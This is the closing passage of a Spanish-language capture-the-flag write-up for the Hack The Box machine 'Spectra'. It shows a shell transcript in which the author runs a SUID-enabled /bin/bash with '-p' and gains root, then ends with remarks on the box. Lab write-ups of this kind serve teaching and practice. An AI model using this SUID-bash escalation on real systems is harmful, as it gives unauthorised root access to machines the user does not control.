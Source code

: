 ![317bash_change_binBASH_SUID](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317bash_change_binBASH_SUID.png)

Perfecto, para validar lo que hicimos simplemente ejecutaríamos el binario, pero con el parámetro `-p` para que tome el SUID:

```bash
katie@spectra /etc/init $ /bin/bash
bash-4.3$ whoami
katie
bash-4.3$ exit
katie@spectra /etc/init $ /bin/bash -p
bash-4.3# whoami
root
```

Listones, solo nos quedaría ver las flags :P

![317flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317flags.png)

...

Wenoo, la parte de la contraseña de `katie` me pareció realmente rara y medio fea (aunque parece algo "real" del entorno `chronium-os`), pero por lo demás me gusto, fue la primera vez que jugué con la asignación del permiso `SUID` al binario `/bin/bash` y que lo documento, asi que una nueva cosita que queda plasmada (:

Muchas gracias por leer y como siempre, a romper todo, bless y feliz vida.